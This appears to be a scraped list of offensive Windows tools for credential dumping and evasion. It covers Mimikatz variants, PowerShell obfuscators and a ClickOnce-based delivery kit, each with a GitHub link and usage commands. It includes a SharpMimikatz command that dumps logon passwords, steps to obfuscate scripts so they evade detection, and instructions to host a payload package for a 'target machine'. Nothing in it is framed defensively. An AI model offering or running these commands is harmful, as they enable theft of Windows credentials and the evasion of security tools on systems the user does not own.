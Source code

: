```
.\Invoke-Mimidogz.ps1
```

https://github.com/fir3d0g/mimidogz



### CoreClass

```
"Add" > "Existing Item". Navigate to the `CoreClass` directory and select all the `.cs` files.
Add a reference to `System.Management.Automation.dll` in your project. To do this, right-click on your project in the solution explorer and select "Add" > "Reference". In the "Reference Manager" window, select "Assemblies" and search for "System.Management.Automation". Select it and click "Add".
```

https://github.com/mobdk/CoreClass


### SharpMimikatz

```
SharpMimikatz.exe "privilege::debug" "sekurlsa::logonPasswords full" "exit"
```

https://github.com/XTeam-Wing/SharpMimikatz


### Invoke-Obfuscation

```
Set-ExecutionPolicy Unrestricted
Import-Module .\Invoke-Obfuscation.psd1
Invoke-Obfuscation -ScriptPath C:\Path\To\MyScript.ps1 -Command All
```

https://github.com/danielbohannon/Invoke-Obfuscation


### SimpleMimikatzObfuscator

```
Commands.txt
```

https://github.com/DimopoulosElias/SimpleMimikatzObfuscator



### ClickOnceKatz

```
pip install pycryptodome requests
python build.py
Host the "publish" directory on a web server or file share accessible to the target machine.
On the target machine, navigate to the URL of the ClickOnce package in a web browser.
```

https://github.com/sinmygit/ClickOnceKatz

